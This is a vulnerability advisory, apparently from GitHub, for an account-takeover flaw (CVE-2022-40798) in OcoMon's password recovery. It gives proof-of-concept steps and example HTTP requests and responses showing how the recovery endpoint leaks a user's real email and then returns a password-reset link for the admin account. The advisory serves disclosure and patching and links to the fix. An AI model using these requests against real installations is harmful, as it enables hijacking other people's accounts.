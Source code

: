 # OcoMon < 4.0RC1  - Account Takeover [CVE-2022-40798]

# Description

Through password recovery its possible to obtain a **token** to reset password of any user.

## Bug - 1

The vulnerability occurs because the application validates the email in database and returns the real email to the user.

![image](https://i.imgur.com/bVXLZbU.png)

## Bug - 2

If username and email are valid, the application returns to user the link to reset the password instead of sending it by email.

![image](https://i.imgur.com/MrXM4jl.png)

# PoC

- Access "Esqueci minha senha:

![image](https://i.imgur.com/nvSER4W.png)

- Enter a valid username (**example: admin**) and a fake email.
- The user's real email will be exposed in the response:

![image](https://i.imgur.com/UZ1yQ0T.png)

- Send the request again replacing the fake email to user original email:

![image](https://i.imgur.com/pzTlW2A.png)

- In the request response have the link to change the user's password, just access and change:

![image](https://i.imgur.com/Yo165U4.png)

**Examples:**

```
URL: https://ocomon.site/includes/common/require_access_recovery_process.php

DATA: csrf=qgBhHao%2BUlza4vm2VFTQZYs7V8A%3D&csrf_session_key=csrf_token&login_name=admin&email=anything@email.com&action=require_recovery

RESPONSE: "action":"require_recovery","field_id":"email","login_name":"admin","email":"anything@email.com","user_id":"1","name":"Administrador do Sistema","mail_to":"realemail@email.com"}
```

```
URL: https://ocomon.site/includes/common/require_access_recovery_process.php
 
DATA: csrf=qgBhHao%2BUlza4vm2VFTQZYs7V8A%3D&csrf_session_key=csrf_token&login_name=admin&email=realemail@email.com&action=require_recovery
 
RESPONSE: "action":"require_recovery","field_id":"","login_name":"admin","email":"realemail@email.com","user_id":"1","name":"Administrador do Sistema","mail_to":"realemail@email.com","rand":"b39abfbd697e566d178e678462b0b6c1","forget_link":"https:\/\/ocomon.site\/setNewPass.php?code=1|b39abfbd697e566d178e678462b0b6c1"}
```


## FIX

https://ocomonphp.sourceforge.io/downloads/
